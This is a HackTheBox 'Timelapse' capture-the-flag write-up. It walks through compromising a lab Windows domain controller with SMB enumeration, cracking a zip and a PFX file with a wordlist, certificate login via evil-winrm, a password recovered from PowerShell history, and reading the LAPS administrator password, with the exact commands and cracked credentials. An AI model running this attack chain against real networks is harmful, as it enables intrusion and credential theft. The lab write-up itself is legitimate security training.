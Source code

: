 ```yaml
---
title: "Timelapse Hackthebox writeup"
author: "0xMesbaha"
header:
  teaser: "/assets/images/timelapse/20220820143425.png"
tags: ["Hackthebox", "Active-directory", "LAPS", "pfx"]
date: 2022-08-20T00:49:18+18:08
toc: true
draft: false
categories:
  - Windows Machines
ribbon: green
---
```


In this Box we are against a windows machine has the active directory service installed on it , we can list files on smb shares and access some shared folder to find a backup.zip file which contains a pfx file for a user on the domain , we can also find some hints about LAPS. after extracting the key and certificate from the pfx file we can login using WinRM. then checking the powershell history we can see password for another user which is a memeber of the LAPS_READERS Group so the other user can read the administrator password in clear text

<!--more-->

## Scanning

```bash
nmap -Pn -A -T4 10.10.11.152 -oN nmap.intial
```

Output

```bash
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-20 21:08:49Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m58s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2022-08-20T21:09:00
|_  start_date: N/A
```

we can see this machine has the Active directory service installed on it because of the DNS service and the kpassword5 ports are open

if we make a full port scan we will get :

```bash
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
52713/tcp open  unknown
```

port `5986` is open which is the WinRm port which we can use to login to the box using `evil-winrm` tool , so we maybe use it latter.

## Enumeration

We can start Enumerating the smb service to check if we have access without providing passwords :

```cmd
smbclient -L 10.10.11.152
Enter WORKGROUP\kali's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	Shares          Disk
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

we can list the folders without any password , we can go check non defaults folders like `Shares`

```cmd
smbclient //10.10.11.152/Shares
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
```

we can download the files in both of these directories to check if there is anything helpful

```bash
-rw-r--r-- 1 kali kali 102K Aug 20 09:16 LAPS_Datasheet.docx
-rw-r--r-- 1 kali kali 627K Aug 20 09:16 LAPS_OperationsGuide.docx
-rw-r--r-- 1 kali kali  71K Aug 20 09:16 LAPS_TechnicalSpecification.docx
-rw-r--r-- 1 kali kali 1.1M Aug 20 09:16 LAPS.x64.msi
-rw-r--r-- 1 kali kali 2.6K Aug 20 09:15 winrm_backup.zip
```

From the files we have found we can assume the machine has LAPS (Local Administrator Password Solution) installed on it to protect administrator password.

_LAPS function is to set a different, random password for the common local administrator account on every computer in the domain_

and we have `winrm_backup.zip` which we can try to open but will find it is protected with a password , we can try crack it :

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u  winrm_backup.zip

PASSWORD FOUND!!!!: pw == supremelegacy
```

By Extracting the zip file we will get `legacyy_dev_auth.pfx`

_The . pfx file, which is in a PKCS#12 format, contains the SSL certificate (public keys) and the corresponding private keys_

Searching for it we will come across [this](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) page which explains how to get the key,cert from the pfx file. But there is a password required in the steps

![error](/assets/images/timelapse/20220820153550.png)

we can use `crackpkcs12` tool to get the password we need

![error](/assets/images/timelapse/20220820153738.png)

```bash
crackpkcs12 legacyy_dev_auth.pfx -d /usr/share/wordlists/rockyou.txt

Dictionary attack - Starting 8 threads

*********************************************************
Dictionary attack - Thread 8 - Password found: thuglegacy
*********************************************************
```

now we can extract the key and the certificate we want

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx  -nocerts -out leg.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out leg.crt
```

## Foothold

We can Authenticate to the box using the key and the cert we have generated from the pfx file . as the we have said before we can use `evil-winrm` to login so let's try :

```bash
evil-winrm -u legacy -c leg.crt -k leg.key -i 10.10.11.152 -S
```

![error](/assets/images/timelapse/20220820155138.png)

we can upload `Winpeas` to see if there is any low hanging fruits first :

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Favorites> upload winPEAS.bat
```

and we can find under the PowerShell history `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

```bash
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We can see password `E3R$Q62^12p7PLlC%KWaxuaV` and the user `svc_deploy` ,we can try to login with that user:

```bash
evil-winrm -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'  -i 10.10.11.152 -S
```

## Privilege escalation

After logging in successfully with that user, we can think of the LAPs we have found earlier maybe it was there for a reason.

Reading [here](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps) we can check if it is installed using :

```bash
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
```

and it is indeed installed , reading about LAPS Attributes we can see this , maybe the `ms-Mcs-AdmPwd` is misconfigured

![error](/assets/images/timelapse/20220820162732.png)

**The Misconfiguration :**

![error](/assets/images/timelapse/20220820163538.png)

```bash
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```

![error](/assets/images/timelapse/20220820162833.png)

And we have access to the administrator password in clear text ! , we can try to login with the administrator password

```bash
evil-winrm -u administrator -p '1M-btm[l8iH]K{[OigWn3zV%'  -i 10.10.11.152 -S
```

and we are in as administrator

![error](/assets/images/timelapse/20220820163026.png)

### pwned
